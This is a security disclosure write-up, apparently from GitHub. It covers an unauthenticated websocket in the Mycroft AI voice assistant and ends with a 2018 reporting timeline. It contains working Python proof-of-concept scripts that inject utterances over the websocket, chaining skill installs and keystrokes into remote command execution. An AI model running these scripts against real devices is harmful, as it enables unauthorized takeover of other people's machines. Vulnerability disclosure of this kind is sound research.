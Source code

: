 # "Hey Mycroft, we've got a Problem"

Getting "Zero Click" Remote Code Execution in Mycroft AI vocal assistant

![Mycroft AI](https://dmtyylqvwgyxw.cloudfront.net/instances/132/uploads/images/custom_image/image/466/normal_9b94a225-8605-4d78-82d2-4c59f6981c57.jpg)

## Introduction

During my journey contributing to open source I was working with my friend [Matteo De Carlo](https://github.com/portaloffreedom) on an [AUR Package](https://git.covolunablu.org/portaloffreedom/plasma-mycroft-PKGBUILD) of a really interesting project called [Mycroft AI](https://mycroft.ai). It's an AI-powered vocal assistant started with a [crowdfunding campaign](https://www.kickstarter.com/projects/aiforeveryone/mycroft-an-open-source-artificial-intelligence-for) in 2015 and a [more recent one](https://www.indiegogo.com/projects/mycroft-mark-ii-the-open-voice-assistant#/) that allowed Mycroft to produce their Mark-I and Mark-II devices. It's also running on Linux Desktop/Server, Raspberry PI and will be available soon™ on [Jaguar F-Type](https://www.youtube.com/watch?v=6GHmzbXp_jY) and [Land Rover](https://mycroft.ai/blog/mycroft-welcomes-jaguar-land-rover-new-investor/)

## Digging in the source code

While looking at the [source code](https://github.com/MycroftAI/mycroft-core) I found an interesting point: [here](https://github.com/MycroftAI/mycroft-core/blob/1f4c98f29ceb6a7981474f1620441e43aa364d00/mycroft/messagebus/service/main.py#L28-L57)

```python
...
host = config.get("host")
port = config.get("port")
route = config.get("route")
validate_param(host, "websocket.host")
validate_param(port, "websocket.port")
validate_param(route, "websocket.route")

routes = [
        (route, WebsocketEventHandler)
]
application = web.Application(routes, **settings)
application.listen(port, host)
ioloop.IOLoop.instance().start()
...
```

it defines a websocket server that uses to get instructions from the remote clients (like the [Android one](https://github.com/MycroftAI/Mycroft-Android)). The settings for the websocket server are defined in [mycroft.conf](https://github.com/MycroftAI/mycroft-core/blob/aa594aebea99eebd0109ad013b71a2210f2b72f4/mycroft/configuration/mycroft.conf#L111-L117)

```json
// The mycroft-core messagebus' websocket
  "websocket": {
    "host": "0.0.0.0",
    "port": 8181,
    "route": "/core",
    "ssl": false
},
```

So there is a websocket server that doesn't require authentication that by default is exposed on `0.0.0.0:8181/core`. Let's test it 😉

```python
#!/usr/bin/env python

import asyncio
import websockets

uri = "ws://myserver:8181/core"
command = "say pwned"

async def sendPayload():
    async with websockets.connect(uri) as websocket:
        await websocket.send("{\"data\": {\"utterances\": [\""+command+"\"]}, \"type\": \"recognizer_loop:utterance\", \"context\": null}")

asyncio.get_event_loop().run_until_complete(sendPayload())
```

And magically we have an answer from the vocal assistant saying `pwned`!

Well, now we can have Mycroft pronounce stuff remotely, but this is not a really big finding unless you want to scare your friends, right?

![Trump WRONG](https://media1.tenor.com/images/8a4a99d3bd67ba8d9a025c36edf4a624/tenor.gif)

## The skills system

Digging deeper we can see that Mycroft has a skills system and a default skill that can install others skills (pretty neat, right?)

How is a skill composed? From what we can see from the documentation a default skill is composed by:

- `dialog/en-us/command.dialog` contains the vocal command that will trigger the skill
- `vocab/en-us/answer.voc` contains the answer that Mycroft will pronounce
- `requirements.txt` contains the requirements for the skill that will be installed with `pip`
- `__int__.py` contains the main function of the skill and will be loaded when the skill is triggered

## What can I do now?

I could create a malicious skill that when triggered runs arbitrary code on the remote machine, but unfortunately this is not possible via vocal command unless the URL of the skill is not whitelisted via the online website. So this is possible but will be a little tricky.

### So I'm done?

Not yet. I found out that I can trigger skills remotely and that is possible to execute commands on a remote machine convincing the user to install a malicious skill. I may have enough to submit a vulnerability report. But maybe I can do a bit better...

## Getting a remote shell using default skills

We know that Mycroft has some [default skills](https://github.com/MycroftAI/mycroft-skills) like `open` that will open an application and others that are whitelisted but not installed. Reading through to the list, I found a really interesting skill called `skill-autogui`, whose description says `Manipulate your mouse and keyboard with Mycroft`. **We got it!**

Let's try to combine everything we found so far into a PoC:

```python
#!/usr/bin/env python

import sys
import asyncio
import websockets
import time


cmds = ["mute audio"] + sys.argv[1:]
uri = "ws://myserver:8181/core"


async def sendPayload():
    for payload in cmds:
        async with websockets.connect(uri) as websocket:
            await websocket.send("{\"data\": {\"utterances\": [\""+payload+"\"]}, \"type\": \"recognizer_loop:utterance\", \"context\": null}")
            time.sleep(1)

asyncio.get_event_loop().run_until_complete(sendPayload())
```

Running the exploit with `python pwn.py "install autogui" "open xterm" "type echo pwned" "press enter"`  allowed me to finally get a command execution on a Linux machine.

![PoC](PoC.gif)

![WASSUUUUUUUUUUUUUUUUUUUUUUUUP](https://thumbs.gfycat.com/PleasedEducatedGalah-size_restricted.gif)

## _Notes_

- `open xterm` was needed because my test Linux environment had a DE installed, on a remote server the commands will be executed directly on TTY so this step is not nesessary.
- The skill branching had a [big change](https://mycroft.ai/blog/skill-branching-18-02/) and now some skills are not (yet) available (autogui is one of them) but this is not the real point. Mycroft has skills to interact with domotic houses and other services that can still be manipulated (the lack of imagination is the limit here). The vulnerability lies in the lack of authentication for the ws.

## Affected devices

All the devices running Mycroft <= ? with the websocket server exposed (Mark-I has the websocket behind a firewall by default)

## Interested in my work?

Follow me on:

- Twitter: `@0x7a657461`
- Linkedin: [https://linkedin.com/in/0xzeta](https://linkedin.com/in/0xzeta)
- GitHub: [https://github.com/Nhoya](https://github.com/Nhoya)

## Timeline

- 08/03/2018 Vulnerability found
- 09/03/2018 Vulnerability reported
- 13/03/2018 The CTO answered that they are aware of this problem and are currently working on a patch
- 06/06/2018 The CTO said that they have no problem with the release of the vulnerability and will add a warning to remember the user to use a firewall `¯\_(ツ)_/¯`
- 09/06/2018 Public disclosure

